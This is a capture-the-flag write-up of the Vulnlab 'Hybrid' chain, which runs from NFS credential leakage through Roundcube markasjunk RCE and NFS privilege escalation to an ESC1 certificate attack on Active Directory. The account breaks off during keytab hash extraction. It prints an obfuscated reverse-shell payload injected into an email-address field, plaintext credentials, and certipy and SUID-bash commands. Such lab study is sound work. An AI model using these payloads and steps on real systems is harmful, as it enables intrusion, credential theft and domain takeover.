


| Chain Name | Difficulty | Date Started | Date Completed |
| ---------- | ---------- | ------------ | -------------- |
| Hybrid     | Easy       | 12/12/2024   | 26/12/2024     |
*Vulnlab.com* 

---

**Learning Points:**
- Learned how to exploit the Roundcube junk filter plugin RCE.
- Learned that we can extract the NTLM hash from `/etc/krb5.keytab` using [keytabextract.py](https://github.com/sosdave/KeyTabExtract) on a Linux host for further attacks.
- Learned how to exploit an ESC1 attack from a domain-joined machine (Linux) with the hash extracted from the `/etc/krb5.keytab`.
- Learned to add the `-old-bloodhound` command when using Certipy-AD to add the output to BloodHound in Kali.

---

Attack Path : 

1. Ran nmap to discover open ports and services on both hosts.
2. Accessed Host-B's web service and was redirected to `http://mail01.hybrid.vl/`
3. Added the URL to the hosts file and accessed `Roundcube Webmail`.
4. Mounted an available NFS share on Host-B to access a share and discovered a backup tar file containing credentials.
5. Abused the NFS misconfiguration to find credentials for `peter.turner@hybrid.vl`.
6. Logged into the webmail service using the credentials and found an email mentioning a `Roundcube junk filter plugin`.
7. Exploited a [RCE vulnerability](https://ssd-disclosure.com/ssd-advisory-roundcube-markasjunk-rce/) in the Roundcube plugin and obtained a shell as `www-data`.
8. Used SSH to log in as `peter.turner@hybrid.vl` using extracted credentials.
9. Checked sudo privileges, found full sudo rights, and escalated to root using `sudo su`, obtaining the `Hybrid_User-2` flag.
10. Enumerated Active Directory Certificate Services (AD CS) using `certipy-ad` and identified the `HybridComputers` template vulnerable to an ESC1 attack.
11. Extracted NTLM hash from `/etc/krb5.keytab` using [keytabextract.py](https://github.com/sosdave/KeyTabExtract).
12. Requested a certificate for the Administrator UPN using the hash.
13. Retrieved the Administrator's NTLM hash from the certificate.
14. Used evil-winrm for a pass-the-hash attack to log in as Administrator to the domain controller and obtained the root flag.

---

Activity Log : 

- Ran nmap for both IP addresses.
- Tried to access SMB port on Host-A using null and anonymous sessions but failed.
- Accessed Host-B port 80 and was redirected to `http://mail01.hybrid.vl/`.
- Added the URL to the hosts file and was able to access `Roundcube Webmail` on Host-B port 80.
- Ran `ldapsearch-ad.py` and gathered some information about Host-A.
- Performed several LDAP-related attacks.
- Started pentesting NFS shares on Host-B and found a share.
- Discovered a backup tar file and extracted two credentials from it.
- Used crackmapexec but could not authenticate with the obtained credentials.
- Logged into the webmail service on Host-B using the credentials and found an email from admin mentioning a `Roundcube junk filter plugin`.
- Searched for exploits related to `Roundcube junk filter plugin`.
- Found that it might be vulnerable to this [RCE](https://ssd-disclosure.com/ssd-advisory-roundcube-markasjunk-rce/).
- Attempted exploits for Windows initially but later confirmed via nmap scan that Host-B runs Linux.
- Verified that the RCE exploit works and started crafting a payload.
- Created and executed the payload, gaining a shell on Host-B as the `www-data` user.
- Ran linpeas but did not find anything useful.
- Consulted write-ups for guidance and referred to these articles:
  - [Linux Privilege Escalation using Misconfigured NFS](https://www.hackingarticles.in/linux-privilege-escalation-using-misconfigured-nfs/)
  - [Linux Privilege Escalation – Exploiting NFS Shares](https://steflan-security.com/linux-privilege-escalation-exploiting-nfs-shares/)
- Abused NFS misconfigurations and retrieved the user flag-1 but could not get the root flag initially, as the password was required for `www-data`.
- Used SSH to log in as `peter.turner@hybrid.vl` using the password extracted from the kdbx file during enumeration.
- Checked sudo privileges with `sudo -l` and found full sudo rights. Used `sudo su` to gain a root shell and obtained the `Hybrid_User-2` flag.
- Ran bloodhound-python to graph the AD network and enumerate but did not find anything significant.
- Used `certipy-ad` to enumerate Active Directory Certificate Services (AD CS) configurations and certificates.
- Discovered that the `HybridComputers` template is vulnerable to an ESC1 attack.
- Initially failed to extract usable output and upload it to BloodHound.
- Corrected the command by adding the `-old-bloodhound` tag and successfully generated the uploadable format of the data.
- Observed **Enrollment Rights** in the certipy output, noting that only Domain Computers had rights.
- Found `/etc/krb5.keytab` on the `mail01` machine and extracted the NTLM hash using [**keytabextract.py**](https://github.com/sosdave/KeyTabExtract).
- Attempted to request a certificate for the template "**HybridComputers**" for the Administrator UPN but initially failed.
- Corrected the command and successfully requested the certificate for the Administrator using the extracted hash.
- Used the certificate to retrieve the NTLM hash of the Administrator.
- Performed a pass-the-hash attack using evil-winrm to log in as the Administrator to the domain controller and obtained the root flag.

---

Assumed :

| Host   | Asset             |
| ------ | ----------------- |
| Host-A | Domain Controller |
| Host-B | Mail01            |

We have two IP addresses: 10.10.173.101 and 10.10.173.102 (which might change later). We ran Nmap on both IP addresses.

*Nmap Port scan Host-A*
```
┌──(destiny㉿falcon)-[~]
└─$ nmap 10.10.173.101 -Pn
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-11 13:38 EST
Nmap scan report for 10.10.173.101
Host is up (0.22s latency).
Not shown: 988 filtered tcp ports (no-response)
PORT     STATE SERVICE
53/tcp   open  domain
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl
3389/tcp open  ms-wbt-server

Nmap done: 1 IP address (1 host up) scanned in 12.56 seconds
```

*Nmap Script scan Host-A*
```
# Nmap 7.94SVN scan initiated Wed Dec 11 13:43:35 2024 as: nmap -sC -sV -p53,88,135,139,389,445,464,593,636,3268,3269,3389 -oA HostA -Pn 10.10.173.101
Nmap scan report for 10.10.173.101
Host is up (0.22s latency).

PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-12-11 18:43:42Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: hybrid.vl0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=dc01.hybrid.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc01.hybrid.vl
| Not valid before: 2024-07-17T16:39:23
|_Not valid after:  2025-07-17T16:39:23
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: hybrid.vl0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=dc01.hybrid.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc01.hybrid.vl
| Not valid before: 2024-07-17T16:39:23
|_Not valid after:  2025-07-17T16:39:23
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: hybrid.vl0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=dc01.hybrid.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc01.hybrid.vl
| Not valid before: 2024-07-17T16:39:23
|_Not valid after:  2025-07-17T16:39:23
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: hybrid.vl0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc01.hybrid.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc01.hybrid.vl
| Not valid before: 2024-07-17T16:39:23
|_Not valid after:  2025-07-17T16:39:23
|_ssl-date: TLS randomness does not represent time
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: HYBRID
|   NetBIOS_Domain_Name: HYBRID
|   NetBIOS_Computer_Name: DC01
|   DNS_Domain_Name: hybrid.vl
|   DNS_Computer_Name: dc01.hybrid.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2024-12-11T18:44:25+00:00
|_ssl-date: 2024-12-11T18:45:04+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=dc01.hybrid.vl
| Not valid before: 2024-07-16T16:48:12
|_Not valid after:  2025-01-15T16:48:12
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2024-12-11T18:44:25
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Dec 11 13:45:08 2024 -- 1 IP address (1 host up) scanned in 92.82 seconds
```

*Nmap Port scan Host-B*
```
┌──(destiny㉿falcon)-[~]
└─$ nmap 10.10.173.102 -Pn
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-11 13:38 EST
Nmap scan report for 10.10.173.102
Host is up (0.19s latency).
Not shown: 990 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
25/tcp   open  smtp
80/tcp   open  http
110/tcp  open  pop3
111/tcp  open  rpcbind
143/tcp  open  imap
587/tcp  open  submission
993/tcp  open  imaps
995/tcp  open  pop3s
2049/tcp open  nfs

Nmap done: 1 IP address (1 host up) scanned in 21.31 seconds
```

*Nmap Script scan Host-B*
```
┌──(destiny㉿falcon)-[~/Vulnlab/Chains/Hybrid]
└─$ cat HostB.nmap
# Nmap 7.94SVN scan initiated Wed Dec 11 13:43:43 2024 as: nmap -sC -sV -p22,25,80,110,111,143,587,993,995,2049 -oA HostB -Pn 10.10.173.102
Nmap scan report for 10.10.173.102
Host is up (0.19s latency).

PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 60:bc:22:26:78:3c:b4:e0:6b:ea:aa:1e:c1:62:5d:de (ECDSA)
|_  256 a3:b5:d8:61:06:e6:3a:41:88:45:e3:52:03:d2:23:1b (ED25519)
25/tcp   open  smtp     Postfix smtpd
|_smtp-commands: mail01.hybrid.vl, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, AUTH PLAIN LOGIN, ENHANCEDSTATUSCODES, 8BITMIME, DSN, CHUNKING
80/tcp   open  http     nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Redirecting...
110/tcp  open  pop3     Dovecot pop3d
|_pop3-capabilities: UIDL SASL STLS RESP-CODES CAPA AUTH-RESP-CODE PIPELINING TOP
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=mail01
| Subject Alternative Name: DNS:mail01
| Not valid before: 2023-06-17T13:20:17
|_Not valid after:  2033-06-14T13:20:17
111/tcp  open  rpcbind  2-4 (RPC #100000)
|_rpcinfo: ERROR: Script execution failed (use -d to debug)
143/tcp  open  imap     Dovecot imapd (Ubuntu)
| ssl-cert: Subject: commonName=mail01
| Subject Alternative Name: DNS:mail01
| Not valid before: 2023-06-17T13:20:17
|_Not valid after:  2033-06-14T13:20:17
|_ssl-date: TLS randomness does not represent time
|_imap-capabilities: OK STARTTLS Pre-login LITERAL+ IMAP4rev1 have post-login SASL-IR ID ENABLE capabilities more LOGIN-REFERRALS IDLE listed LOGINDISABLEDA0001
587/tcp  open  smtp     Postfix smtpd
|_smtp-commands: mail01.hybrid.vl, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, AUTH PLAIN LOGIN, ENHANCEDSTATUSCODES, 8BITMIME, DSN, CHUNKING
993/tcp  open  ssl/imap Dovecot imapd (Ubuntu)
|_ssl-date: TLS randomness does not represent time
|_imap-capabilities: OK have AUTH=LOGINA0001 LITERAL+ IMAP4rev1 post-login listed SASL-IR ID capabilities Pre-login more LOGIN-REFERRALS IDLE AUTH=PLAIN ENABLE
| ssl-cert: Subject: commonName=mail01
| Subject Alternative Name: DNS:mail01
| Not valid before: 2023-06-17T13:20:17
|_Not valid after:  2033-06-14T13:20:17
995/tcp  open  ssl/pop3 Dovecot pop3d
| ssl-cert: Subject: commonName=mail01
| Subject Alternative Name: DNS:mail01
| Not valid before: 2023-06-17T13:20:17
|_Not valid after:  2033-06-14T13:20:17
|_pop3-capabilities: UIDL SASL(PLAIN LOGIN) USER RESP-CODES CAPA AUTH-RESP-CODE PIPELINING TOP
|_ssl-date: TLS randomness does not represent time
2049/tcp open  nfs      3-4 (RPC #100003)
Service Info: Host:  mail01.hybrid.vl; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Dec 11 13:45:03 2024 -- 1 IP address (1 host up) scanned in 80.34 seconds
```

Tried to access the SMB port on Host-A using a null and anonymous session but failed.


Accessing Host-B on port 80 redirected us to `http://mail01.hybrid.vl/`.


Added the URL to the hosts file and was able to access Roundcube Webmail.


Tried some LDAP enumeration on Host-A but failed.

```
┌──(destiny㉿falcon)-[~]
└─$ ldapsearch -x -H ldap://10.10.173.101 -D '' -w '' -b "DC=hybrid,DC=vl"
# extended LDIF
#
# LDAPv3
# base <DC=hybrid,DC=vl> with scope subtree
# filter: (objectclass=*)
# requesting: ALL
#

# search result
search: 2
result: 1 Operations error
text: 000004DC: LdapErr: DSID-0C090AC9, comment: In order to perform this opera
 tion a successful bind must be completed on the connection., data 0, v4f7c

# numResponses: 1
```

Ran `ldapsearch-ad.py` and obtained some information about Host-A.

```
┌──(destiny㉿falcon)-[~/tools-backup/ldapsearch-ad]
└─$ python3 ldapsearch-ad.py -l 10.10.173.101 -t info  
### Server infos ###
[+] Forest functionality level = Windows 2016
[+] Domain functionality level = Windows 2016
[+] Domain controller functionality level = Windows 2016
[+] rootDomainNamingContext = DC=hybrid,DC=vl
[+] defaultNamingContext = DC=hybrid,DC=vl
[+] ldapServiceName = hybrid.vl:dc01$@HYBRID.VL
[+] naming_contexts = ['DC=hybrid,DC=vl', 'CN=Configuration,DC=hybrid,DC=vl', 'CN=Schema,CN=Configuration,DC=hybrid,DC=vl', 'DC=DomainDnsZones,DC=hybrid,DC=vl', 'DC=ForestDnsZones,DC=hybrid,DC=vl']

```

Ran `ldapdomaindump` and failed.

```
┌──(destiny㉿falcon)-[~/tools-backup/ldapsearch-ad]
└─$ ldapdomaindump ldap://10.10.173.101
[*] Connecting as anonymous user, dumping will probably fail. Consider specifying a username/password to login with
[*] Connecting to host...
[*] Binding to host
[+] Bind OK
[*] Starting domain dump
[+] Domain dump finished
```

Started pentesting NFS shares on Host-B and found a share.

```
┌──(destiny㉿falcon)-[~/tools-backup/ldapsearch-ad]
└─$ showmount -e 10.10.173.102
Export list for 10.10.173.102:
/opt/share *
```

We mounted it and found a tar file.

```
┌──(destiny㉿falcon)-[~/tools-backup/ldapsearch-ad]
└─$ sudo mount -t nfs -o vers=3,nolock 10.10.173.102:/opt/share /mnt/new_back

┌──(destiny㉿falcon)-[~/tools-backup/ldapsearch-ad]
└─$ cd /mnt/new_back 

┌──(destiny㉿falcon)-[/mnt/new_back]
└─$ ls                                 
backup.tar.gz
```

Extracted the tar file.

```
┌──(destiny㉿falcon)-[~/Vulnlab/Chains/Hybrid]
└─$ tar -xvzf backup.tar.gz

etc/passwd
etc/sssd/sssd.conf
etc/dovecot/dovecot-users
etc/postfix/main.cf
opt/certs/hybrid.vl/fullchain.pem
opt/certs/hybrid.vl/privkey.pem
```

Found possible credentials :

```
┌──(destiny㉿falcon)-[~/…/Chains/Hybrid/etc/dovecot]
└─$ cat dovecot-users 
admin@hybrid.vl:{plain}Duckling21
peter.turner@hybrid.vl:{plain}PeterIstToll!
```

Found two PEM certificates as well.

```
┌──(destiny㉿falcon)-[~/…/Hybrid/opt/certs/hybrid.vl]
└─$ ls
fullchain.pem  privkey.pem
```

Tried the credentials to check if they were valid using `crackmapexec`, but all attempts failed.

```┌──(destiny㉿falcon)-[~/…/Hybrid/opt/certs/hybrid.vl]
└─$ crackmapexec smb 10.10.173.101 -u peter.tuner -p 'PeterIstToll!'
SMB         10.10.173.101   445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:hybrid.vl) (signing:True) (SMBv1:False)
SMB         10.10.173.101   445    DC01             [-] hybrid.vl\peter.tuner:PeterIstToll! STATUS_LOGON_FAILURE 
                                                                                                                                                                                  
┌──(destiny㉿falcon)-[~/…/Hybrid/opt/certs/hybrid.vl]
└─$ crackmapexec smb 10.10.173.101 -u administrator -p 'Duckling21'
SMB         10.10.173.101   445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:hybrid.vl) (signing:True) (SMBv1:False)
SMB         10.10.173.101   445    DC01             [-] hybrid.vl\administrator:Duckling21 STATUS_LOGON_FAILURE 
                                                                                                                                                                                  
┌──(destiny㉿falcon)-[~/…/Hybrid/opt/certs/hybrid.vl]
└─$ crackmapexec smb 10.10.173.101 -u administrator -p 'Duckling21' --local-auth
SMB         10.10.173.101   445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:DC01) (signing:True) (SMBv1:False)
SMB         10.10.173.101   445    DC01             [-] DC01\administrator:Duckling21 STATUS_LOGON_FAILURE 
                                                                                                                                                                                  
┌──(destiny㉿falcon)-[~/…/Hybrid/opt/certs/hybrid.vl]
└─$ crackmapexec smb 10.10.173.101 -u peter.tuner -p 'PeterIstToll!' --local-auth
SMB         10.10.173.101   445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:DC01) (signing:True) (SMBv1:False)
SMB         10.10.173.101   445    DC01             [-] DC01\peter.tuner:PeterIstToll! STATUS_LOGON_FAILURE 
```

Tried to log in to the Webmail service we found earlier on Host-B using the credentials we discovered and was able to log in as the `admin` user. While enumerating, we found a sent mail (the inbox was empty).


Enumerating the other user revealed the mail that the admin had sent.


While googling, we found that this might be vulnerable to the [SSD Advisory – Roundcube markasjunk RCE](https://ssd-disclosure.com/ssd-advisory-roundcube-markasjunk-rce/).


Moving an email to the junk executed the payload.


We crafted a reverse shell and followed the same process.

```bash
//raw payload
sh -i >& /dev/tcp/10.8.4.157/1234 0>&1

//Base64 encoded with Spaces replaced
echo${IFS}c2ggLWkgPiYgL2Rldi90Y3AvMTAuOC40LjE1Ny8xMjM0IDA+JjEK|base64${IFS}-d|bash

//Final Email payload
peter.turner&echo${IFS}c2ggLWkgPiYgL2Rldi90Y3AvMTAuOC40LjE1Ny8xMjM0IDA+JjEK|base64${IFS}-d|bash&@hybrid.vl
```

We got a shell on Host-B as the `www-data` user.

### Vertical Privilege Escalation (Host B)

Confirmed that MySQL was running internally but was unable to access it using the credentials we had.


Could not find anything from linpeas either.

While reviewing Hacktricks methods for pentesting NFS, we found this [NFS no_root_squash/no_all_squash misconfiguration PE](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/nfs-no_root_squash-misconfiguration-pe) that can be used for privilege escalation. Tried it but failed.


*Had to refer to a writeup to continue, and these articles helped me: [Linux Privilege Escalation using Misconfigured NFS](https://www.hackingarticles.in/linux-privilege-escalation-using-misconfigured-nfs/) and [Linux Privilege Escalation – Exploiting NFS Shares](https://steflan-security.com/linux-privilege-escalation-exploiting-nfs-shares/).*

Reading the `/etc/exports` file, we can see there's no `no_root_squash`, so we cannot place a bash binary owned by the root user.



We know there's a user `peter.turner` on the victim machine with the ID `902601108`.


Added the user `peter.turner@hybrid.vl` to Falcon and changed the **UID** and **GID** to **902601108**.



On the victim machine, copied `/bin/bash` to the `/opt/share` folder.

```
sudo su -l peter.turner@hybrid.vl
#already mount the share using sudo 
cp /mnt/bash /tmp/bash
#just to add user rights
#then remove bash from /opt/share using  reverse shell as www-data
www-data@mail01:/opt/share$ rm bash
#then on attacker machine transfer /tmp/bash to /mnt/bash
cp /tmp/bash /mnt/bash
#and give permission to bash file which is in /mnt/bash
chmod +s /mnt/bash
#on reverse shell use ./bash -p to get shell as user peter.turner@hybrid.vl
/opt/share/bash -p
```

We were able to escalate our privileges to the user `peter.turner` and obtain the Hybrid-User1 flag.


### Further Enumeration (Host B)

We found a Kdbx database in the home folder of `peter.turner`.

```
bash-5.1$ file passwords.kdbx 
passwords.kdbx: Keepass password database 2.x KDBX
```

We transferred the file using the NFS share to Falcon.


We needed a password to view the file :


We used the `peter.turner`'s password, which we obtained from earlier enumeration stages, to access the `kdbx` file and found domain credentials.


```
peter.tuner:b0cwR+G4Dzl_rw
```

We used SSH to log into Host-B as `peter.turner@hybrid.vl` using the password we obtained.


### Full Privilege Escalation(Host B)

We used the `sudo -l` command and discovered that we had full sudo rights. We then used the `sudo su` command to gain a root shell and obtained the `Hybrid_User-2` flag.

```
peter.turner@hybrid.vl@mail01:~$ sudo -l
[sudo] password for peter.turner@hybrid.vl: 
Sorry, try again.
[sudo] password for peter.turner@hybrid.vl: 
Matching Defaults entries for peter.turner@hybrid.vl on mail01:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User peter.turner@hybrid.vl may run the following commands on mail01:
    (ALL) ALL
peter.turner@hybrid.vl@mail01:~$ sudo su
root@mail01:/home/peter.turner@hybrid.vl# cd /root
root@mail01:~# ls
flag.txt  snap
```

----

### Bloodhound / Certipy-ad Enumeration

We ran `bloodhound-python` to graph the AD network and enumerate, but couldn't find anything interesting.

```
┌──(destiny㉿falcon)-[~/Vulnlab/Chains/Hybrid/bloodhound]
└─$ bloodhound-python -d 'HYBRID.VL' -u 'peter.turner@hybrid.vl' -p 'b0cwR+G4Dzl_rw' -ns 10.10.155.165 -dc dc01.hybrid.vl -c all   
INFO: Found AD domain: hybrid.vl
INFO: Getting TGT for user
INFO: Connecting to LDAP server: dc01.hybrid.vl
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 2 computers
INFO: Connecting to LDAP server: dc01.hybrid.vl
INFO: Found 14 users
INFO: Found 53 groups
INFO: Found 2 gpos
INFO: Found 2 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: mail01
INFO: Querying computer: dc01.hybrid.vl
WARNING: Could not resolve: mail01: The resolution lifetime expired after 3.102 seconds: Server Do53:10.10.155.165@53 answered The DNS operation timed out.
INFO: Done in 01M 09S
```

We then used `certipy-ad` to enumerate Active Directory Certificate Services (AD CS) configurations and certificates

```
┌──(destiny㉿falcon)-[~/…/Chains/Hybrid/bloodhound/certipy]
└─$ certipy-ad find -u 'peter.turner'@HYBRID.VL -p "b0cwR+G4Dzl_rw" -dc-ip 10.10.155.165
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Trying to get CA configuration for 'hybrid-DC01-CA' via CSRA
[!] Got error while trying to get CA configuration for 'hybrid-DC01-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'hybrid-DC01-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Got CA configuration for 'hybrid-DC01-CA'
[*] Saved BloodHound data to '20241226142454_Certipy.zip'. Drag and drop the file into the BloodHound GUI from @ly4k
[*] Saved text output to '20241226142454_Certipy.txt'
[*] Saved JSON output to '20241226142454_Certipy.json'

```

We then used **Certipy** to find and display **vulnerable certificate templates** in AD CS on the DC and discovered that the `HybridComputers` template is vulnerable to an ESC1 attack.

```
┌──(destiny㉿falcon)-[~/…/Chains/Hybrid/bloodhound/certipy]
└─$ certipy-ad find -u 'peter.turner'@HYBRID.VL -p "b0cwR+G4Dzl_rw" -dc-ip 10.10.155.165 -stdout -vulnerable
[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Trying to get CA configuration for 'hybrid-DC01-CA' via CSRA
[!] Got error while trying to get CA configuration for 'hybrid-DC01-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'hybrid-DC01-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Got CA configuration for 'hybrid-DC01-CA'
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : hybrid-DC01-CA
    DNS Name                            : dc01.hybrid.vl
    Certificate Subject                 : CN=hybrid-DC01-CA, DC=hybrid, DC=vl
    Certificate Serial Number           : 4C8F6DB934C950B84A32042D62BBF2F1
    Certificate Validity Start          : 2023-06-17 14:04:39+00:00
    Certificate Validity End            : 2124-12-26 08:24:47+00:00
    Web Enrollment                      : Disabled
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Permissions
      Owner                             : HYBRID.VL\Administrators
      Access Rights
        ManageCertificates              : HYBRID.VL\Administrators
                                          HYBRID.VL\Domain Admins
                                          HYBRID.VL\Enterprise Admins
        ManageCa                        : HYBRID.VL\Administrators
                                          HYBRID.VL\Domain Admins
                                          HYBRID.VL\Enterprise Admins
        Enroll                          : HYBRID.VL\Authenticated Users
Certificate Templates
  0
    Template Name                       : HybridComputers
    Display Name                        : HybridComputers
    Certificate Authorities             : hybrid-DC01-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Enrollment Flag                     : None
    Private Key Flag                    : 16842752
    Extended Key Usage                  : Client Authentication
                                          Server Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 100 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 4096
    Permissions
      Enrollment Permissions
        Enrollment Rights               : HYBRID.VL\Domain Admins
                                          HYBRID.VL\Domain Computers
                                          HYBRID.VL\Enterprise Admins
      Object Control Permissions
        Owner                           : HYBRID.VL\Administrator
        Write Owner Principals          : HYBRID.VL\Domain Admins
                                          HYBRID.VL\Enterprise Admins
                                          HYBRID.VL\Administrator
        Write Dacl Principals           : HYBRID.VL\Domain Admins
                                          HYBRID.VL\Enterprise Admins
                                          HYBRID.VL\Administrator
        Write Property Principals       : HYBRID.VL\Domain Admins
                                          HYBRID.VL\Enterprise Admins
                                          HYBRID.VL\Administrator
    [!] Vulnerabilities
      ESC1                              : 'HYBRID.VL\\Domain Computers' can enroll, enrollee supplies subject and template allows client authentication
```

Failed to request the certificate for `peter.turner` using the below command:

```
┌──(destiny㉿falcon)-[~/…/Chains/Hybrid/bloodhound/certipy]
└─$ certipy-ad req -u 'peter.turner'@HYBRID.VL -p"b0cwR+G4Dzl_rw" -dc-ip 10.10.155.165 -ca hybrid-DC01-CA -template HybridComputers -upn administrator -target 10.10.155.165 -key-size 4096 

Certipy v4.8.2 - by Oliver Lyak (ly4k)
[*] Requesting certificate via RPC
[-] Got error while trying to request certificate: code: 0x80094012 - CERTSRV_E_TEMPLATE_DENIED - The permissions on the certificate template do not allow the current user to enroll for this type of certificate.
[*] Request ID is 9
Would you like to save the private key? (y/N) [*] Saved private key to 9.key
[-] Failed to request certificate

```

Also failed to import the Certipy BloodHound output.


We used the `-old-bloodhound` tag and ran the Certipy command again, successfully uploading the data to BloodHound.

```
┌──(destiny㉿falcon)-[~/…/Chains/Hybrid/bloodhound/certipy]
└─$ certipy-ad find -u 'peter.turner'@HYBRID.VL -p "b0cwR+G4Dzl_rw" -dc-ip 10.10.155.165 -old-bloodhound                                                                          
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Trying to get CA configuration for 'hybrid-DC01-CA' via CSRA
[!] Got error while trying to get CA configuration for 'hybrid-DC01-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'hybrid-DC01-CA' via RRP
[*] Got CA configuration for 'hybrid-DC01-CA'
[*] Saved BloodHound data to '20241226150353_Certipy.zip'. Drag and drop the file into the BloodHound GUI from @BloodHoundAD
```

Seeing, the **Enrollement Rights** from the certipy output before, found that only Domain Computers have rights :


As we had the Domain-joined `MAIL01$` machine, we enumerated further on `MAIL01` and found the **/etc/krb5.keytab** file, which is used to authenticate to Kerberos without human interaction or storing the password.

We transferred the `krb5.keytab` file to our machine using `wget` and used [**keytabextract.py**](https://github.com/sosdave/KeyTabExtract) to extract information about `MAIL01$` and its hashes.

```
┌──(destiny㉿falcon)-[~/Vulnlab/Chains/Hybrid]
└─$ python3 keytabextract.py krb5.keytab
[*] RC4-HMAC Encryption detected. Will attempt to extract NTLM hash.
[*] AES256-CTS-HMAC-SHA1 key found. Will attempt hash extraction.
[*] AES128-CTS-HMAC-SHA1 hash discovered. Will attempt hash extraction.
[+] Keytab File successfully imported.
        REALM : HYBRID.VL
        SERVICE PRINCIPAL : MAIL01$/
